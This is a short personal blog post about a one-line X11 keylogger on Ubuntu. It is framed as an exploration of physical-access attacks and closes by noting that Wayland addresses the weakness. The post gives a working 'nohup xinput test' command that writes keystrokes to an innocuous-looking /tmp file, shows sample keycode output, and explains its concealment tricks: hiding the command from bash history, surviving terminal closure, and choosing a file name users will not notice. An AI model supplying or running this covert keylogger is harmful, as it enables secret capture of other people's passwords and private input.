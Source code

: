 ```yaml
---
layout: post
title:  "A one-line X11 keylogger"
categories: linux X11 security
---
```


It's an old adage that you can't secure a computer against people with physical
access to. I was interested in this idea, so I was exploring what could be done
with only keyboard and mouse access to a typical Ubuntu machine (i.e. without
being able to plug in usb devices or pull out hard drives) when I came across
the `xinput test` command. I'm sure this is old hat to anyone with a real
interest in security, and I'm sure there are plenty of ways to counter it; but I
think it's interesting anyway.

So, here's how to run an X11-based keylogger which writes to a local file and
probably won't be noticed by a non-paranoid user: Open a terminal, run

```
 nohup xinput test $(xinput list | grep 'AT Translated' | sed 's/.*id=\([0-9]*\).*/\1/') > /tmp/tmp.QTQTivXDhI
```

with a leading space character (markdown eats leading spaces in code samples..)
and close the terminal. You may need to change the `AT Translated` to the name
of your keyboard to get it working one your machine, have a look at the output
of `xinput list`. Now press some keys and it will write into
`/tmp/tmp.QTQTivXDhI` something like:

    key press   40
    key press   47
    key release 40
    key press   58
    key press   45
    key release 47
    key release 58
    key release 45
    key press   41
    key press   43
    key release 41
    key press   46
    key release 43
    key press   44
    key release 46
    key press   28
    key release 44
    key press   65
    key release 28
    key release 65

those numbers are X11 keycodes which can be translated to key names if you know
the keyboard layout in use.

Here's a breakdown of the command:

* The leading space tells bash not to record the command in it's history

* `nohup` prevents it from stopping when you close the terminal

* `xinput test` is the command which does the actual keylogging

* `$(...)` finds the id of the keyboard to log

* `> /tmp/tmp/....` writes the output to an inconspicuous looking file

Of course to make any use of this an attacker would need to come back to the
machine and inspect the resulting file, but if someone can get access once they
can probably do it a second time.

I'm not sure that this is a real problem since there are so many other things
that an attacker with this kind of access could do. This is one of many security
issues with X11 that Wayland
[should solve](https://blog.martin-graesslin.com/blog/2015/11/looking-at-the-security-of-plasmawayland/).
